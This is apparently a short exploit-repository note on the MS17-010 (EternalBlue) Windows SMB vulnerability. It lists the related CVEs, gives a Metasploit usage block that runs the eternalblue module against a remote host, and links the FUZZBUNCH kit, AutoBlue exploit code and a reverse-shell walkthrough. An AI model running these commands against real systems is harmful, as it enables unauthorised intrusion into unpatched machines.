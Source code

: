 # MS17-010

- exp [FUZZBUNCH](https://github.com/exploitx3/FUZZBUNCH)

Vulnerability reference:
 * [MS17-010](https://technet.microsoft.com/library/security/ms17-010)
 * [CVE-2017-0143](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143)
 * [CVE-2017-0144](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144)
 * [CVE-2017-0145](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0145)
 * [CVE-2017-0146](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0146)
 * [CVE-2017-0148](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0148)
 * [CVE-2017-0147](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0147)

## Usage
```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > set rhost 10.10.1.13
msf exploit(ms17_010_eternalblue) > run
```

## References
* [Windows2012上如何通过攻击ETERNALBLUE获得Meterpreter反弹](https://mp.weixin.qq.com/s?__biz=MzI5MzY2MzM0Mw%3D%3D&mid=2247483946&idx=1&sn=cbe2e5a08470d699daeb74d7904581c7&scene=45#wechat_redirect)
* [MS17-017: Microsoft Windows 7 SP1 x86 Privilege Escalation Vulnerability](https://securityonline.info/ms17-017-microsoft-windows-7-sp1-x86-privilege-escalation-vulnerability/)  
* [AutoBlue-MS17-010 - an semi-automated fully working, no-bs, non-metasploit version of the public exploit code for MS17-010 AKA EternalBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)
* [MS17-010 EternalSynergy / EternalRomance / EternalChampion aux+exploit modules #9473](https://github.com/rapid7/metasploit-framework/pull/9473)

